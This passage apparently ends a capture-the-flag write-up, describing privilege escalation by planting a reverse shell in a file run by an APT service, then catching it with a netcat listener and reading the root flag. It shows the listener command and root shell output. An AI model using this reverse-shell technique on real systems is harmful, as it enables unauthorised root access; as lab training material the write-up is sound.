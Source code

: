 So above I've echo'd a simple shell in to the file called rev_shell. That will be processed by the APT service, we just need to have a netcat listener waiting:

```sh
┌──(root💀kali)-[~]
└─# nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.10.15.39] from (UNKNOWN) [10.10.11.101] 36708
#
```

With our final shell connected as root we can grab the flag:

```sh
# id
uid=0(root) gid=0(root) groups=0(root)
# cat /root/root.txt
<HIDDEN>
```

All done. See you next time.
